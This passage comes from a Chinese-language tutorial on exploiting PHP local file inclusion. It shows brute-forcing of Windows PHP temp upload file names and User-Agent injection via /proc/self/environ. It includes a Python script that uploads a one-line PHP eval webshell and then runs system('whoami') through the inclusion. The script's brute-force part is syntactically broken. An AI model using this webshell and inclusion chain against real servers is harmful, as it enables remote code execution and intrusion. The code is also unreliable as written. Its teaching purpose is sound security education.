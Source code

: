 - windows

```
Windows临时文件主要存储在`C:/Windows/`目录下，格式通常是（`C:/Windows/php[4个随机字符].tmp`）
```

对比Linux和Windows来看，Windows需要破解的位数比Linux少，从而Windows会比Linux破解速度快，位数越长所需要耗费的时间就越大。

```php
#python version 2.7

import requests
from io import BytesIO

files = {
  'file': BytesIO('<?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

########################暴力破解模块########################
url2='http://192.168.68.119/web/fi/index.php?file=C:/Windows/php'+{fuzz}+'.tmp&Qftm=system('whoami');'
data = fuzz
print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"
########################暴力破解模块########################
```

对于暴力破解模块，可以自己添加多线程模块进行暴力破解，也可以将暴力破解模块拿出来单独进行fuzz，或者比较常用的做法就是将一些fuzz工具的模块拿出来添加到里面稍微改一下接口就可以直接使用。

#### **5./proc/self/environ**

通过本地文件包含漏洞,查看是否可以包含/proc/self/environ文件。然后**向User-Agent头中注入**PHP代码有可能会攻击成功。如果代码被成功注入到User-Agent头中，本地文件包含漏洞会利用并执行/proc/self/environ，这样就能得到你的shell

这里我说一下这个 self ，这个 self 不要以为就是 self 文件夹，实际上子目录/proc/self本身就是当前运行进程 PID，你会发现你每次请求得到的 self 都是不同的

**如图一：**

[![img](assets/202304161625389.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/self1.png)此处输入图片的描述

**如图二：**

[![img](assets/202304161625548.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/self2.png)此处输入图片的描述

